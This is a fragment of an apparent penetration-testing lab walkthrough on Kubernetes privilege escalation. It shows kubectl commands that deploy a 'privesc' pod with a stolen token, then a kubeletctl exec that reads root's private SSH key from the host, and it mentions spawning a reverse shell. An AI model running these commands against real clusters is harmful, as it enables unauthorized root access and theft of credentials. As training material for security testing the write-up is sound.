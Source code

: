 `creating a new pod with the .yaml config`
```shell
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml

pod/privesc created


$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods

NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0			23m
privesc	1/1		Running	0			12s
```
If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.

`Extracting Root's SSH Key`
```shell-session
cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc

-----BEGIN OPENSSH PRIVATE KEY-----
```